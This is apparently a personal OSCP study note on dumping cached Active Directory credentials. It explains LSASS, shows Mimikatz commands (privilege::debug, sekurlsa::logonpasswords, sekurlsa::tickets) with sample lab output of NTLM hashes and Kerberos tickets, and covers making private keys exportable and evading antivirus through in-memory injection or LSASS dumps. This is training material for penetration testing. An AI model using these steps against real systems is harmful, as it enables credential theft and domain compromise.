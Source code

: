 ```yaml
---
aliases:
  - Cached AD Credentials
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - active_directory
  - ad
  - adds
  - authentication
  - ad_auth
  - cache
  - cached_creds
author: Mehdi N Tehrani
creat_date: 2024-01-05
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# LSASS
#lssas  #local_security_authority_subsystem_service 
Microsoft's implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request.

In modern versions of Windows, these hashes are stored in the **Local Security Authority Subsystem Service** ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) memory space.

LSASS process is part of the operating system and runs as SYSTEM, we need *SYSTEM* (or local administrator) permissions to gain access to the hashes stored on a target.

> The data structures used to store the hashes in memory are *not publicly documented*
> They are also encrypted with an LSASS-stored key.

# Mimikatz
#mimikatz 
Mimikatz is well-known and heavily blocked by AV solutions.

> **TGS** would allow us to access only particular resources associated with those tickets. 
> With **TGT**, we could request a TGS for specific resources we want to target within the domain.

Mimikatz can also export tickets to the hard drive and import tickets into LSASS

## Certificate Authority (CA)
#ca #certificate_authority
If a server is installed as a Certification Authority (CA), we could issue certificates for web servers to use HTTPS or to authenticate users based on certificates from the CA via [Smart Cards](https://en.wikipedia.org/wiki/Smart_card).

If a certificate sis marked as having a [*non-exportable private key*](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/marking-private-keys-as-non-exportable-with-certutil-importpfx/ba-p/1128390), a private key associated with a certificate cannot be exported even with administrative privileges. 
### workarounds
mimikatz crypto module #crypto #mimikatz_crypto #capi #keyIso #mimikatz_capi #mimikatz_keyiso
-  `crypto` module allows patching [CryptoAPI](https://docs.microsoft.com/en-us/windows/win32/seccrypto/cryptoapi-system-architecture) function to **make the key exportable**
	- using `crypto::capi`
	- or `KeyIso` service with `crypto::cng`

## workarounds
#mimikatz_bypass #av_evasion
### Memory Injection
#in_memory_injection #memory_injection 
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
Execute Mimikatz directly from memory using an injector like PowerShell

### Memory Dump
#memory_dump
- use a built-in tool like Task Manager to dump the entire LSASS process memory 
	- [lsass dump](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)
- Transfer data to a helper machine
- then [load the data into Mimikatz](http://www.fuzzysecurity.com/tutorials/18.html)


## Usage
Run
```cmd
c:\> mimikatz.exe
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 14 2022 15:03:52
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
```

Escalate privileges
```mimikatz
privilege::debug
Privilege '20' OK
```

Dump cached credentials
#cached_creds 
```mimikatz
sekurlsa::logonpasswords

Authentication Id : 0 ; 4641600 (00000000:0046d340)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 1/5/2024 6:40:28 PM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103
        msv :
         [00000003] Primary
         * Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
         * DPAPI    : fed8536adc54ad3d6d9076cbc6dd171d
        tspkg :
        wdigest :
         * Username : dave
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :       KO

Authentication Id : 0 ; 4400862 (00000000:004326de)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 1/5/2024 6:39:28 PM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103
...
[SNIPPED]
...
```

Get cached tickets
#tickets #cached_tickets
```mimikatz
sekurlsa::tickets

Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 1/5/2024 6:24:25 PM ; 1/6/2024 4:23:25 AM ; 1/12/2024 6:23:25 PM
           Service Name (02) : cifs ; DC1.corp.com ; corp.com ; @ CORP.COM
           Target Name  (02) : cifs ; DC1.corp.com ; corp.com ; @ CORP.COM
           Client Name  (01) : CLIENT75$ ; @ CORP.COM ( corp.com )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             2bed5f13abc18503086df14112bf889c822e1ccc5b64b3af44ec241a264f9b78
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 11       [...]
         [00000001]
           Start/End/MaxRenew: 1/5/2024 6:24:25 PM ; 1/6/2024 4:23:25 AM ; 1/12/2024 6:23:25 PM
           Service Name (01) : CLIENT75$ ; @ CORP.COM
           Target Name  (01) : CLIENT75$ ; @ CORP.COM
           Client Name  (01) : CLIENT75$ ; @ CORP.COM
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             7d0d0e6a2ad8c255c84000e3e0688f07caebfea11cb9a7bc3f22c4324312b55b
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 11       [...]
         [00000002]
           Start/End/MaxRenew: 1/5/2024 6:23:32 PM ; 1/6/2024 4:23:25 AM ; 1/12/2024 6:23:25 PM
           Service Name (02) : LDAP ; DC1.corp.com ; @ CORP.COM
           Target Name  (02) : LDAP ; DC1.corp.com ; @ CORP.COM
           Client Name  (01) : CLIENT75$ ; @ CORP.COM
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             93a05b9c9ee152d1a06f3164ab88b88b8d2b944dff4ee47e15735aa24c84a382
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 11       [...]
         [00000003]
           Start/End/MaxRenew: 1/5/2024 6:23:25 PM ; 1/6/2024 4:23:25 AM ; 1/12/2024 6:23:25 PM
           Service Name (02) : ldap ; dc1.corp.com ; corp.com ; @ CORP.COM
           Target Name  (02) : ldap ; dc1.corp.com ; corp.com ; @ CORP.COM
           Client Name  (01) : CLIENT75$ ; @ CORP.COM ( CORP.COM )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             d7ddb82c242166fd3e0d5b6a2f4bb9194075f3ff15c7a409e1f96ec3c3269e56
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 11       [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 1/5/2024 6:24:25 PM ; 1/6/2024 4:23:25 AM ; 1/12/2024 6:23:25 PM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (--) : @ CORP.COM
           Client Name  (01) : CLIENT75$ ; @ CORP.COM ( $$Delegation Ticket$$ )
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             dc30380797db39c58dace165932d2ca615890c99d5d5c53350c20dd67ff8013d
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
         [00000001]
           Start/End/MaxRenew: 1/5/2024 6:23:25 PM ; 1/6/2024 4:23:25 AM ; 1/12/2024 6:23:25 PM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Client Name  (01) : CLIENT75$ ; @ CORP.COM ( CORP.COM )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             5dbba939f1a86a68af68e99f0ef64dd1b0a72f1914e0a1594609d2d9eb38e33f
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
```


